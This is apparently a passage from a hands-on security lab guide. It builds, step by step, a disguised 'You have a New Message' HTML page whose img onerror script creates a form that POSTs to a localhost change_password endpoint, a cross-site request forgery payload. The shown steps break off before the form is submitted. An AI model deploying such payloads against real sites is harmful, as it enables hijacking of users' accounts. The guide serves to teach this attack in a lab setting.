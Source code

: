     ![](./lab-guide/docs/assets/vs_new_file.png){ width="300" }
    
2. Create the foundational elements of an HTML file
    ```html 
    <!DOCTYPE html>
    <html>
        <body>
        
        </body>
    </html>
    ```

3. Inside the `body` HTML element, add a `h2` tag with the value `You have a New Message`
    ```html
    <!DOCTYPE html>
    <html>
        <body>
            <h2> You have a New Message</h2>
        </body>
    </html>
    ```
4. Next, create a HTML image element that will execute an `onerror` function for a bad image source
    ```html
    <!DOCTYPE html>
    <html>
        <body>
            <h2> You have a New Message</h2>
            <img src="x" onerror=""/>
        </body>
    </html>
    ```

5. Update the `img` `onerror` attribute with a JavaScript function to create a form
    ```html
    <img src="x" onerror="
        const f = document.createElement('form');
    "/>
    ```

6. Continue refining the JavaScript to add a form action that will execute a HTTP `POST` request to `http://localhost:8088/change_password`
    ```html
    <img src="x" onerror="
        const f = document.createElement('form');
        f.action = 'http://localhost:8088/change_password';
        f.method = 'POST';
    "/>
    ```
